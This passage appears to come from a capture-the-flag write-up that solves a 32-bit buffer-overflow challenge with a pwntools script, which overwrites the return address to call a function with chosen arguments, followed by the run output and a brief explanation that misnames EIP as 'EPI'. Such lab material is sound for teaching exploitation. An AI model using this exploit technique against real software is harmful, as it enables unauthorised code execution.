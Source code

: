 ```python
#!/usr/bin/env python
import pwn

# pwn.context.log_level = 'debug'

f1 = pwn.p32(0x8049256)      # function address
f1arg1 = pwn.p32(0x9c)       # 1st argument
f1arg2 = pwn.p32(300)        # 2nd argument

buff = 'A' * 172             # our buffer with 172 A

"""
Now we put all together
buffer + function address + 'JUNK' + first argument + second argument
"""
payload = buff.encode() \
    + f1 \
    + 'JUNK'.encode() \
    + f1arg1 \
    + f1arg2

open('payload.txt', 'w').write(payload.decode('iso-8859-1'))

elf = pwn.ELF('./port-65144')
p = elf.process()
p.sendline(payload)

print('=========================')
print('what the process returned')
print(p.recv().decode())
```

Ok this exploit will return us:

```bash
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 exploit.py
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/reisraff/workdir/challs/port-65144/port-65144': pid 976
=========================
what the process returned
Enter your buffer: gotcha func1

```

I am using the <a href="https://pypi.org/project/pwntools/" target="_blank">pwn library</a> with python3.

Explaining the exploit, I am just sending 172 bytes of "A" character, overwriting the `EPI` with the `f1` (function address), after the `EPI` we have the saved `EBP` that for us, it is not important now, then I put `JUNK`, and we have our local variables, that I put in order the values `0x9c` and `300`.
